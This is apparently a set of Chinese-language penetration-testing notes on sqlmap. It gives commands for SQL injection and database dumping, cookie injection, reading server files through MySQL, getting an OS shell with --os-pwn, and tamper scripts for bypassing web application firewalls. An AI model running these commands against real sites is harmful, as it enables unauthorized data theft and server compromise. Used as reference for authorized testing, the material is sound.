 # Sqlmap

---

所有请求方式都能注入，默认是get/post,但是当使用--level参数>=2时，检查cookies，>=3时检查user-agent和referer、 --level 1 GET|2 cookies|3 POST

提示输入的选择，大写是回车默认选项

出现红色提示就是错误，建议加参数

---

sqlmap -u "http://URL/id=1"	

## 参数

```

--current-db 		#列出当前的数据库
 
--current-user		#列出当前的权限用户

--threads=线程数    #设置线程数，0~10

--referer IP或域名  #设置访问来源

--is-dba  #查看当前数据库用户权限

--level 等级  （等级越高检测会越全面，总5级）

--dbms 数据库名 （指定数据库类型）

--batch   按照sqlmap的默认提示往下确认

--proxy http://localhost:8080 #代理

-p 参数名  #指定注入点参数，当有多个参数时使用 ,默认全部参数都测试注入

-r 文件名         #该文件是能注入的页面的抓·包

--charset=     #编码格式GBK、UTF-8

--dbs 			#列出服务器中所有的数据库

-D 库名 --tables 	#列出该库的所有表

-D 库名 -T 表名 --columns #列出库名的表名的所有字段名

-D 库名 -T 表名 -C "字段名" --dump #列出库名的表名的字段名的数据

4.0版本可以用

--os-pwn #获取操作系统的shell  ，需要依赖msf（建议在kali里使用）

--sql-shell               
# 文件读取
1.
select load_file('绝对路径') #查看后台登录页面判断登录的代码，找到用户名和密码的代入查询的字段名，和表名（注意，路径使用/，无论是windows还是linux，如要使用\ 就使用\\或者16进制,16进制就不用双引号）windows2003读取C:/windows/system32/inetarv/metabase.xml就可以查看到所有网站根目录
2.
select load data infile '绝对路径' into table user1;  #读取文件写入到user1表中
select * from user;  
3.mysql 5.x以上，sql连接是本地才可以执行
system cat 绝对路径 ;  #执行系统命令读取

```
当无法读取数据库表名

```
情况：
1.版本小于5.0的MySQL没有information_schema表
2.微软Access的MSysObjects表默认不可读
3.数据库用户权限过低无法读取表名

--common-tables  #爆破表名，爆破字典路径txt/common-tables.txt
--common-columns #爆破列名，爆破字典路径txt/common-columns.txt
```



指定注入类型：

```
--technique B
B : 基于Boolean的盲注（Boolean based blind）
Q : 内联查询（Inline queries）
T : 基于时间的盲注（time based blind）
U : 基于联合查询（Union query based）
E : 基于错误（error based）
S : 栈查询（stack queries）
```

---

## cookies注入：（等级2才有cookies注入检测）

sqlmap -u "URL/xxx.php" --cookie "id=n" --level 2 --dbms=mysql --dbs   #cookies注入mysql数据库，查看所有数据库

--cookie "id=n"  --level 2 -D 库名 --tables

--cookie "id=n"  --level 2 -D 库名 -T 表名 --columns

--cookie "id=n"  --level 2 -D 库名 -T 表名 -C "字段名" --dump

\-----------------------------

## temper

tamper（编写绕过规则）：进行绕过waf（防护规则，检测发包间隔）

sqlmap默认tamper有  

sqlmap -u "http://URL/id=1" --tamper "xx.py"  --delay 3 #每次发包延迟3秒再发

 -v 显示包的等级

暂时能过V3.2，更高版本的安全狗要研究

详细：http://www.91ri.org/7852.html

空格 换成 #、随即字符串、换行符


